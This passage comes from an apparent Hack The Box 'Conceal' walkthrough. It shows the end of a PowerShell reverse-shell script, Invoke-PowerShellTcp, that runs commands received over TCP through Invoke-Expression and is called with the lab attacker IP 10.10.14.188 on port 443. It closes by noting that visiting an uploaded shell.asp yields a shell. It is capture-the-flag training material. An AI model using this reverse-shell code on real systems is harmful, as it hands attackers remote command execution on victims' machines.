 ```powershell

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.188 -Port 443
```


After uploading both files and visiting http://10.129.228.122/uploads/shell.asp, we get a reverse shell:

![shell](/assets/images/hackthebox/conceal/shell.png)
